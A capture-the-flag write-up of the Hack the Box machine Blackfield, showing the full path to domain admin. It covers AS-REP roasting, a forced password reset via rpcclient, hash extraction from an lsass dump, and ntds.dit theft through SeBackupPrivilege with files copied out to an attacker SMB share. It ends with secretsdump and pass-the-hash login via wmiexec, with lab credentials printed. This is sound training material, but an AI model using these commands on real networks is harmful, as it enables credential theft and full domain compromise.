 ```yaml
---
layout: post
title:  "Hack the Box - Blackfield"
category: "Writeups"
---
```


## Enumeration
# NMAP

```bash
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-05-22 11:03:09Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

# SMB
- We can get a valid list of users

## AS-REP

With this list of users, we can perform an [AS-REPRoast](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast) attack
- We get a hit!

```text
support@blackfield : #00^BlackKnight
```

## Enumeration with support
# SMB 
- Nothing found

# Evil-WinRM
- Can't login

## Bloodhound
- Observing the support node, we motice the "Outbound Control Rights" which allows us to "ForceChangePassword" to the audit2020 account

![[ForceChangePassBH.png]](/images/HTB/Blackfield/ForceChangePassBH.png)

[We can change the password for the AUDIT2020 user over RPC](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword)


```bash
rpcclient -U blackfield.local/support 10.10.10.192
```

```bash
setuserinfo2 AUDIT2020 23 'turco123!'
```
- Validate: ![[ChangePassSuccess.png]](/images/HTB/Blackfield/ChangePassSuccess.png)

## Enumeration with Audit2020
# SMB
- We can read the forensic share: ![[forensic-share.png]](/images/HTB/Blackfield/forensic-share.png)
- We find lsass.zip there which can be used to extract hashes
- Instead of using mimikatz, we can use [pypykatz](https://github.com/skelsec/pypykatz)

```bash
pypykatz lsa minidump lsass.DMP
```

- We get the NT hash for the svc_backup user

```text
svc_backup : 9658d1d1dcd9250115e2205d9f48400d
```

## Enumeration with svc_backup
- We are good to Win-RM in! ![[svc_backup-WinRM.png]](/images/HTB/Blackfield/svc_backup-WinRM.png)

# Basic Windows Enum

```windows
whoami /all
```
- Output:

```windows
USER INFORMATION
----------------

User Name             SID
===================== ==============================================
blackfield\svc_backup S-1-5-21-4194615774-2175524697-3563712290-1413


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```
- The key one here is the "SeBackupPrivilege"

## SeBackupPrivilege
- [Resource to help for escalating privs](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)
- We can use a smbserver to transfer files
- [Medium artiole that I used for performing the priv esc](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960)
- Following the steps in method 1, we can perform the backup to get the Administrator hash
- Transferring files with smb:

Our machine:
```bash
impacket-smbserver turco ./priv -smb2support
```


Victim:
```windows
net use \\10.10.14.6\turco
```

```windows
copy <file> \\10.10.14.6\turco
```

- First run the script provided in the article which creates the E share
- Use robocpy to get the ntds.dit from the E share
```windows
robocopy /b E:\Windows\ntds . ntds.dit
```
- Get system file to decrypt 
```windows
reg save hklm\system c:\temp\system
```
- Download with smb server

- Get hashes with secretsdump
```bash
impacket-secretsdump -system system -ntds ntds.dit LOCAL
```
- ![[Windows/Hard/Blackfield/secretsdump.png]](/images/HTB/Blackfield/secretsdump.png)

```Administrator : 184fb5e5178480be64824d4cd53b99ee```

- Now we can enter the system as Administrator

```bash
impacket-wmiexec blackfield.local/Administrator@10.10.10.192 -hashes aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee
```
- We are in!